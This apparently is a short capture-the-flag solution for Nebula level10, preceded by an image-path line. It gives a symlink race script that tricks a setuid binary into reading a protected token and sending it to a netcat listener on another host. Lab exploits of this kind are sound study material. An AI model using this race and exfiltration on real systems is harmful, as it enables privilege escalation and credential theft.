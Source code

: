 level10@nebula:~$ cat fast.sh
#!/bin/sh

while :
do
    rm -f token
    touch token
        /home/flag10/flag10 token 192.168.32.115 &
    ln -sf /home/flag10/token token
done

level10@nebula:~$ chmod +x fast.sh


on server:
$ nc -k -l 18211 | grep -v ".oO Oo."

then:
level10@nebula:~$ ./fast.sh

